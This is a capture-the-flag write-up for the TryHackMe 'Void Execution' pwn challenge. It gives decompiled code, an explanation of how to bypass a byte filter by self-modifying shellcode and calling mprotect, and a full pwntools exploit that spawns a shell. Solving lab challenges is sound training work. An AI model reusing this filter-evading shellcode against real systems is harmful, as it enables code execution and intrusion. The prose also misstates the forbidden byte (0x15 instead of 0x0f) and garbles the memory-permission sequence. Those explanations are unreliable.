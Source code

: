 ```yaml
---
title: "Void Execution"
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: THM{REDACTED}
---
```

> No description.

---

Given a binary `voidexec` and `libc.so.6` file.

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  void *s; // [rsp+8h] [rbp-8h]

  setup(argc, argv, envp);
  s = mmap((void *)0xC0DE0000LL, 0x64uLL, 7, 34, -1, 0LL);
  memset(s, 0, 0x64uLL);
  puts("\nSend to void execution: ");
  read(0, s, 0x64uLL);
  puts("\nvoided!\n");
  if ( (unsigned __int8)forbidden(s) )
    exit(1);
  mprotect(s, 0x64uLL, 4);
  ((void (*)(void))s)();
  return 0;
}
```

The binary reads shellcode from the user and executes it. The shellcode is stored in a memory region that is marked as read-only. The binary then calls `mprotect` to change the memory region to read-write and then changes the memory region to read-execute. Finally, the binary calls the shellcode.

The `forbidden` function checks if the shellcode contains the bytes `0x15` or `0xCD 0x80`. If the shellcode contains these bytes, the binary exits.

```c
__int64 __fastcall forbidden(__int64 a1)
{
  unsigned __int64 i; // [rsp+10h] [rbp-10h]

  for ( i = 0LL; i <= 0x62; ++i )
  {
    if ( *(_BYTE *)(a1 + i) == 15 || *(_BYTE *)(a1 + i) == 0xCD && *(_BYTE *)(i + 1 + a1) == 0x80 )
    {
      puts("Forbidden!");
      return 1LL;
    }
  }
  return 0LL;
}
```

The idea is to write a shellcode that does not contain the forbidden bytes and execute it. So we need to write a shellcode that does not contain the bytes `0x15` or `0xCD 0x80`.

So we can write the `syscall` or `int 0x80` instructions in a different way. We can use the `inc` instruction to increment the value of the byte at the address of the instruction before the instruction executes. This way we can avoid the forbidden bytes. But the memory region is marked as read-only. So we need to change the memory region to read-write to modify the `syscall` or `int 0x80` instructions.

Since the binary is **PIE** enabled, we need to calculate the address of the `mprotect` function. To find the **PIE** base address, we need to find which register is storing some function address from the binary. So i found that the `r13` register is storing the address of the `main` function. So we can calculate the address of the `mprotect` function by subtracting the address of the `main` function from the address of the `mprotect` function. Now we can use the `lea` instruction to load the address of the `mprotect` function to the `rbx` register.

```asm
lea rbx, [r13 - main + mprotect]
```

Now we can write the shellcode to call the `mprotect` function to change the memory region to read-write and then change the memory region to read-execute. Finally, we can write the shellcode to call the `execve` syscall.

```asm
mov rdi, 0xC0DE0000
mov rsi, 0x64
mov rdx, 0x7
call rbx
```

Voila! We can now write the shellcode to call the `execve` syscall.

```py
from pwn import *

binary = './voidexec'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('10.10.150.155', 9008)

shellcode = asm(f'''
    lea rbx, [r13 - {e.sym['main']} + {e.plt['mprotect']}]

    mov rdi, 0xC0DE0000
    mov rsi, 0x64
    mov rdx, 0x7
    call rbx

    mov rax, 0x3b
    mov rdi, 0x68732f6e69622f
    push rdi
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx

    inc byte ptr [rip + syscall]
    inc byte ptr [rip + syscall + 1]
    
syscall:
    .byte 0x0e, 0x04
''')
log.info(f'Length of shellcode: {len(shellcode)}')

r.recvuntil(b'Send to void execution: ')
r.sendline(shellcode)
r.interactive()
```

## References

- [Shellcode Challenge 3](https://cov-comsec.github.io/posts/2021_assembly_and_shellcoding_walkthrough/#solution-shellcode-challenge-3)
